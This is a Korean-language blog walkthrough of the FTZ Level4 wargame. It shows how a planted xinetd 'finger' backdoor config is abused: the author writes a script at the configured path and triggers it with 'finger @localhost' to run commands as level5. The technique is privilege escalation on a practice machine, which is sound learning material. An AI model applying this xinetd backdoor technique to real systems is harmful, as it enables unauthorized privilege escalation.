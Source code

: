 ```yaml
---
layout: post
title: FTZ Level4
categories: [Wargame]
tags: [FTZ]
comments: true
---
```


```
[level4@ftz ~]$ cat hint
 
누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

/etc/xinetd.d폴더를 확인해 보자.

{% highlight bash %}
[level4@ftz ~]$ cd /etc/xinetd.d/
[level4@ftz xinetd.d]$ ls -al
total 88
drwxr-xr-x    2 root     root         4096 Jun 29 14:53 .
drwxr-xr-x   53 root     root         4096 Jul  8 12:21 ..
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Apr 17  2003 chargen-udp
-rw-r--r--    1 root     root          417 Dec 19  2007 daytime
-rw-r--r--    1 root     root          437 Dec 19  2007 daytime-udp
-rw-r--r--    1 root     root          339 Dec 19  2007 echo
-rw-r--r--    1 root     root          358 Dec 19  2007 echo-udp
-rw-r--r--    1 root     root          317 Dec 19  2007 finger
-rw-r--r--    1 root     root          273 Dec 19  2007 ntalk
-rw-r--r--    1 root     root          359 Dec 19  2007 rexec
-rw-r--r--    1 root     root          376 Dec 19  2007 rlogin
-rw-r--r--    1 root     root          429 Dec 19  2007 rsh
-rw-r--r--    1 root     root          317 Sep 29  2004 rsync
-rw-r--r--    1 root     root          310 Dec 19  2007 servers
-rw-r--r--    1 root     root          312 Dec 19  2007 services
-rw-r--r--    1 root     root          406 Dec 19  2007 sgi_fam
-rw-r--r--    1 root     root          261 Dec 19  2007 talk
-rw-r--r--    1 root     root          305 Sep 10  2011 telnet
-rw-r--r--    1 root     root          495 Dec 19  2007 time
-rw-r--r--    1 root     root          515 Dec 19  2007 time-udp
{% endhighlight %}

이중 backdoor라는 파일이 의심스럽다.

{% highlight bash %}
[level4@ftz xinetd.d]$ cat backdoor 
service finger 
{
    disable        = no
    flags          = REUSE
    socket_type    = stream        
    wait           = no
    user           = level5
    server         = /home/level4/tmp/backdoor
    log_on_failure += USERID
}
{% endhighlight %}


살펴보면 finger서비스를 작동시킬때, level5의 권한으로 /home/level4/tmp/backdoor파일을 실행시킨다.

`xinetd`은 외부에서 서비스를 실행시킬 때 데몬이 대기하고 있어야 하는데, 여러 데몬을 기다리도록 만들 경우 낭비가 심하여 그를 해결하기 위한 관리 데몬이라 생각하면 될것 같다.

<http://lily.mmu.ac.kr/lecture/08sm/Fedora2/7jang/2.htm> 더 자세한 내용은 참고하면 됩니다.

finger서비스를 구동시켜야 하는데, finger @localhost를 실행할 경우 finger가 외부로 요청을 보내게 됩니다.

그 것을 localhost로 받기 때문에, 다시 돌아와 외부에서 실행하는 서비스로 수행하게 됩니다. 이 서비스를 level5의 권한으로 backdoor를 실행하게 됩니다.


{% highlight bash %}
[level4@ftz tmp]$ pwd
/home/level4/tmp
[level4@ftz tmp]$ ls
[level4@ftz tmp]$ 
{% endhighlight %}

tmp폴더를 확인해 보면 프로그램이 존재하지 않습니다. 직접 만들어야 합니다.

{% highlight bash %}
[level4@ftz tmp]$ cat > backdoor
#!/bin/bash
my-pass
[level4@ftz tmp]$ chmod +x backdoor
{% endhighlight %}

이렇게 프로그램을 작성해 줍니다.

{% highlight bash %}
[level4@ftz tmp]$ finger @localhost
^[[H^[[J
Level5 Password is "             ".
{% endhighlight %}

이렇게 서비스를 작동시켜 주게 될 경우 backdoor프로그램이 정상적으로 실행됩니다.